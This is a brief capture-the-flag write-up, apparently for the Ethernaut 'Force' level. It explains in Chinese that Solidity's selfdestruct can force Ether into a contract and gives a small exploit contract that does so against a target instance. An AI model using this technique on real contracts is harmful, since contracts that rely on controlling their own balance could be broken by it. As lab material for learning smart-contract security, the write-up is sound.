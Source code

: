 
# Level07 Force
selfdestruct函数可以强行发送ETH, 可参考https://medium.com/@alexsherbuck/two-ways-to-force-ether-into-a-contract-1543c1311c56


```
pragma solidity ^0.4.24;

contract Force {
}

contract Force2 is Force{
    Force f;
    constructor(address _instance) public {
        f = Force(_instance);
    }
    
    function exploits() public payable{
        selfdestruct(f);
    }
}
```